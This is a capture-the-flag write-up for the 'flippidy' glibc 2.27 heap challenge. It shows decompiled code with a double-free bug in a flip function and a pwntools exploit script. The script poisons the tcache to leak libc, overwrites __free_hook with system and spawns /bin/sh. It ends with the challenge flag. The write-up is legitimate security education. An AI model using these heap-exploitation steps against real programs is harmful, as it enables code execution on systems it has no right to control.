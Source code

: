 # flippidy
## Overview
This is a glibc 2.27 heap challenge.
We have a program which allows us to create an array of strings.
We decide how many strings we want. Each string will be at most 48 characters long.

After creating the array of strings, we can 'flip' the array, which simply means we can switch the first element with the last element, the second element with the second last element, and so on.
The program does not give us a way to actually view our list of strings.

## The Menu
Something weird that left me confused is how the menu is implemented.
```c
void printMenu(){
  int i; // [rsp+Ch] [rbp-4h]
  puts("\n");
  for ( i = 0; i <= 3; ++i )
    puts(menu_entries[i]);
}
```

`menu_entries` is an array of strings, each of which represents a line in the program's menu.
```
.data:404020 off_404020      dq offset aMenu         ; DATA XREF: printMenu+2A↑o
.data:404020                                         ; "----- Menu -----"
.data:404028                 dq offset a1AddToYourNote ; "1. Add to your notebook"
.data:404030                 dq offset a2FlipYourNoteb ; "2. Flip your notebook!"
.data:404038                 dq offset a3Exit        ; "3. Exit"
.data:404040 aMenu           db '----- Menu -----',0 ; DATA XREF: .data:off_404020↑o
```

This works and it makes sense but it seemed overly complex for this program, it does not provide any advantage.
Turns out that it helps us develop the exploit.

## The Problem
Ther problem is exactly with this 'flip' functionality.
Looking at the code of the function, I immediately began to think what would happen in certain edge cases. Here is a commented decompilation of the function.
```c
unsigned __int64 flip()
{
  void **rightPtr; // rbx
  void **leftPtr; // rbx
  bool emptyLeft; // [rsp+Ah] [rbp-A6h]
  bool emptyRight; // [rsp+Bh] [rbp-A5h]
  int i; // [rsp+Ch] [rbp-A4h]
  char leftCopy[64]; // [rsp+10h] [rbp-A0h] BYREF
  char rightCopy[72]; // [rsp+50h] [rbp-60h] BYREF

  for ( i = 0; i <= notebookSize / 2; ++i )
  {
    memset(leftCopy, 0, sizeof(leftCopy));
    memset(rightCopy, 0, 64uLL);
    emptyLeft = 0;
    emptyRight = 0;
    // is the string from the left empty?
    if ( *((_QWORD *)notebookBuf + i) )
    {
      // if it's not, copy its content and free the chunk
      strcpy(leftCopy, *((const char **)notebookBuf + i));
      free(*((void **)notebookBuf + i));
    }
    else
    {
      // if it is, set the boolean
      emptyLeft = 1;
    }
    // do the same for the string from the right
    // note: with notebookSize = 0, this would access index minus 1, 
	// which contains the chunk's size.
    // this would lead to a segfault in the following strcpy.
    // with notebookSize = 1, this would access index 0, 
	// which is the same index we accessed earlier!
	// This effectively causes a double free.
    if ( *((_QWORD *)notebookBuf + notebookSize - i - 1) )
    {
      strcpy(rightCopy, *((const char **)notebookBuf + notebookSize - i - 1));
      free(*((void **)notebookBuf + notebookSize - i - 1));
    }
    else
    {
      emptyRight = 1;
    }
    // cancel both pointers from the list
    *((_QWORD *)notebookBuf + i) = 0LL;
    *((_QWORD *)notebookBuf + notebookSize - i - 1) = 0LL;
    if ( !emptyLeft )
    {
      // if left was not empty, make a new chunk with its content
      // and assign it to the right pointer
      rightPtr = (void **)((char *)notebookBuf + 8 * (notebookSize - i) - 8);
      *rightPtr = malloc(48uLL);
      strcpy(*((char **)notebookBuf + notebookSize - i - 1), leftCopy);
    }
    else
    {
      // else.... cancel it again lol?
      *((_QWORD *)notebookBuf + notebookSize - i - 1) = 0LL;
    }
    if ( !emptyRight )
    {
      // do the same for right pointer
      leftPtr = (void **)((char *)notebookBuf + 8 * i);
      *leftPtr = malloc(48uLL);
      strcpy(*((char **)notebookBuf + i), rightCopy);
    }
    else
    {
      *((_QWORD *)notebookBuf + i) = 0LL;
    }
  }
}
```

## The Exploit
Here is the relevant part of the script. 
You can find the full script and all other files below.
```python
# Make the list 1 string long
p.sendlineafter('how big', '1')

# The address of the menu array and of each string in it
menu_entries_arrayptr = 0x404020
menu_strings = [b'----- Menu', b'1. Add', b'2. Flip', b'3. Exit']
menu_entries = [next(elf.search(s)) for s in menu_strings]
menu_array = b''.join([p64(addr) for addr in menu_entries])

# Create a chunk and write the array's address to it
add(0, p64(menu_entries_arrayptr))

# Trigger the double free in flip, adding menu_entries_arrayptr to bin list
# Basically: chunk gets freed twice, first malloc gives us the chunk back
# and the menu array ptr is copied to it
# Second malloc gives us the same chunk again,
# and the menu array ptr is used as next ptr
# The tcache now has size 0 (2 frees 2 mallocs)
flip()

# The pointer at menu_entries_arrayptr was added to the tcache bin
# We can take it even if tcache now has size 0, there are no controls
# When we take it the size will underflow to 0xff,
# which means the next frees would go to fastbin
# So now we have a fake free chunk at the string '----- Menu' etc, 
# which is right after the menu entries array
# Modify first element of menu entries to point to puts got,
# so that we leak it when menu is printed
# Leave the other elements unmodified
# there is no need to change them and also cause I'm a good, well-mannered boy
# Write a pointer to menu_entries[0] at menu_entries[0]
# this makes a loop in the tcache list,
# it is basically an artificial double free which is awesome
add(0, p64(elf.got['puts']) + menu_array[8:] + p64(menu_entries[0]))


# the first element of the menu was replaced with a pointer to puts got
# Retrieve this leak and calculate libc address
p.recvline()
p.recvline()
puts_leak = u64(p.recv(6) + b'\x00\x00')
libc.address = puts_leak - libc.sym['puts']
log.info(f'Puts: {hex(puts_leak)}')
log.info(f'libc: {hex(libc.address)}')

# Now make use of the 'artificial double free'
# let's add __free_hook to the tcache bin list
# The tcache bin right now is menu_entries[0] -> menu_entries[0]
# We malloc to get the chunk at menu_entries[0], 
# write free_hook addr on it, 
# then we malloc again and get the same chunk again
# This second malloc, free_hook will be treated as next ptr,
# so will be added to tcache by tcache_put
add(0, p64(libc.sym['__free_hook']))
add(0, 'cute doggo lol')

# Next malloc gives us a chunk on free_hook, write pointer to system 
# Next call to free will call system instead
add(0, p64(libc.sym['system']))

# The tcache is now empty because free_hook was set to NULL
# So we can simply allocate a new chunk without error
# We set its contents to /bin/sh then we free it to call system('/bin/sh')
add(0, '/bin/sh\x00')
flip()
```

## Flag
dice{some_dance_to_remember_some_dance_to_forget_2.27_checks_aff239e1a52cf55cd85c9c16}
